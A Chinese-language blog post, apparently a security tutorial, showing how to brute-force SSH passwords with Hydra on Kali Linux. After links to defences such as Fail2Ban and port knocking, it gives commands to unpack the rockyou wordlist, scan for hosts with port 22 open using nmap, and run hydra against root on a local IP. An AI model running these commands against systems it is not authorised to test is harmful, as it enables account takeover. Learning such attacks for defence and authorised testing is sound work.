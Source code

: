 ```yaml
---
layout: post
title: 使用Hydra通过ssh破解密码
---
```


Hydra是非常高效的网络登录破解工具，它可以对多种服务程序执行[暴力破解](http://topspeedsnail.com/hack-brute-force/)（SSH、VNC等等）。

防止这种攻击其实很容易，方法很多。以SSH为例：

* [Ubuntu：使用Port Knocking隐藏SSH端口](http://blog.topspeedsnail.com/archives/3936)
* [在Ubuntu中用Fail2Ban保护SSH](http://blog.topspeedsnail.com/archives/262)
* [CentOS 7安装使用Fail2Ban保护SSH](http://blog.topspeedsnail.com/archives/3119)
* [Debian使用Fail2Ban和Tinyhoneypot增加网络安全](http://blog.topspeedsnail.com/archives/3667)

*****

Kail Linux有一个的GUI版本：xhydra，也有一个命令行版本：hydra。

xhydra：

![xhydra]({{ site.baseurl }}/images/2016/4/Screenshot from 2016-04-16 10-26-48.png)

hydra：

![hydra]({{ site.baseurl }}/images/2016/4/Screenshot from 2016-04-16 10-28-41.png)

我使用命令行版本：hydra

### 字典

这种攻击需要字典文件，一个好的字典至关重要。我以Kali Linux自带的rockyou字典为例，位于/user/share/wordlists/rockyou.txt.gz。

使用前先解压：

{% highlight shell %}
# gzip -d /usr/share/wordlists/rockyou.txt.gz
{% endhighlight %}

### 使用nmap扫描开启SSH服务的主机

扫描SSH服务(22端口)，确定可以施行破解的主机。

{% highlight shell %}
＃ nmap -p 22 -open -sV one_IP_or_range_or_subnet > MyTarget
{% endhighlight %}

### 使用hydra暴力破解

{% highlight shell %}
# hydra -s 22 -v -l root -P /usr/share/wordlists/rockyou.txt 192.168.0.108 ssh
{% endhighlight %}

更多选项，查看man hydra。